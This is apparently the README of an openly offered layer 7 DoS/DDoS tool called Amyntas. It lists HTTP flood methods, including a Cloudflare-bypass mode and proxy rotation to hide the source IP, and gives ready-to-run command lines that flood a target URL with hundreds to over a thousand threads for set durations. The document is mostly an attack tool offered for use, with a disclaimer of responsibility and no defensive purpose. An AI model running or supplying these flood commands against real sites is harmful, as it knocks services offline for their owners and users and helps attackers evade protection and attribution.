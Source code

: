 ## READ THIS FIRST
I'm currently busy working on a better version of Amyntas, which will add more support for other OS's and will include a lot of fixes and new stuff. <br>
In the mean time, i don't think i will update this tool so its recommended you just hang on tight untill i release my other tool. Thank you!

## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <br>
Also, for the `BYPASS` attack to work on <strong>\*nix</strong> you need to replace the `.exe` executable with the ELF binary.

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (method which uses browser emulation to get a cookie which will be used to bypass services like Cloudflare)
- `PROXY` (GET flood which hides its IP using a specified proxy list)

---

### Features
1. Proxy scraper & checker
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy aswell `--rotate-proxy <file with proxies>`)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol
5. Better debugging (it's shit atm)

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://yandex.ru)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
--check-proxies FILE_LOCATION          Specify a file with proxies to check (set type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified PROXY/GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds:
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds:
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

GET flood that bypasses Cloudflare's UAM mode:
```
python3 amyntas.py -t https://target.com -w 200 -d 100 -m BYPASS --proxy-file socks5.txt
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)
